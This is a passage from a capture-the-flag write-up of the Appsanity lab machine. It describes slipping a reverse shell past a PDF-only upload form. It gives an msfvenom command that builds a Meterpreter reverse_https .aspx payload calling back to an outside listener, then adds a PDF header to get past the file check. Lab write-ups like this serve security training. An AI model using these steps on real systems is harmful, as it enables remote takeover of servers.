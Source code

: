 If we copy the "View Report" link, the link looks like this:
> https://portal.meddigi.htb/ViewReport.aspx?file=eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf


### Uploading RevShell

In the Doctor Panel there is also a "Upload Report" menu.
However it only allows us to upload PDF files.
We just need to create a .aspx reverse shell, and add the PDF header.

``` bash
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.2  LPORT=1337 -f aspx -o revshell.aspx
```
Now add the PDF header (%PDF-1.7%).
![](Appsanity/pdfheader.png)

With the header, it allows us to upload the report.
If we check the reports again using the SSRF found before, we can see the new report.
![](Appsanity/reportlist2.png)
